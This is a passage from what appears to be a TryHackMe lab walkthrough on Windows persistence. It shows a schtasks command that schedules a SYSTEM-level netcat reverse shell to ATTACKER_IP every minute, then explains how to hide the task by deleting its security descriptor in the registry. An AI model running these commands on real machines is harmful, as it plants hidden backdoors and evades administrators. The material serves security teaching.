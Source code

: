 Let's create a task that runs a reverse shell every single minute. In a real-world scenario, you wouldn't want your payload to run so often,  but we don't want to wait too long for this room:

- **Command Prompt**        

```shell-session
C:\> schtasks /create /sc minute /mo 1 /tn THM-TaskBackdoor /tr "c:\tools\nc64 -e cmd.exe ATTACKER_IP 4449" /ru SYSTEM
SUCCESS: The scheduled task "THM-TaskBackdoor" has successfully been created.
        
```

**Note:** Be sure to use `THM-TaskBackdoor` as the name of your task, or you won't get the flag.

The previous command will create a "THM-TaskBackdoor" task and execute an `nc64` reverse shell back to the attacker. The `/sc` and `/mo` options indicate that the task should be run every single minute. The `/ru` option indicates that the task will run with SYSTEM privileges.

To check if our task was successfully created, we can use the following command:

- **Command Prompt**        

```shell-session
C:\> schtasks /query /tn thm-taskbackdoor

Folder: \
TaskName                                 Next Run Time          Status
======================================== ====================== ===============
thm-taskbackdoor                         5/25/2022 8:08:00 AM   Ready
        
```

### Making Our Task Invisible

Our task should be up and running by now, but if the compromised user tries to list its scheduled tasks, our backdoor will be noticeable. To  further hide our scheduled task, we can make it invisible to any user in the system by deleting its **Security Descriptor (SD)**.  The security descriptor is simply an ACL that states which users have  access to the scheduled task. If your user isn't allowed to query a  scheduled task, you won't be able to see it anymore, as Windows only  shows you the tasks that you have permission to use. Deleting the SD is  equivalent to disallowing all users' access to the scheduled task,  including administrators.

The security descriptors of all scheduled tasks are stored in `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\`. You will find a registry key for every task, under which a value named  "SD" contains the security descriptor. You can only erase the value if  you hold SYSTEM privileges.

To hide our task, let's delete the SD value for the "THM-TaskBackdoor" task we created before. To do so, we will use `psexec` (available in `C:\tools`) to open Regedit with SYSTEM privileges:

- **Command Prompt**        

```shell-session
C:\> c:\tools\pstools\PsExec64.exe -s -i regedit
        
```

We will then delete the security descriptor for our task:

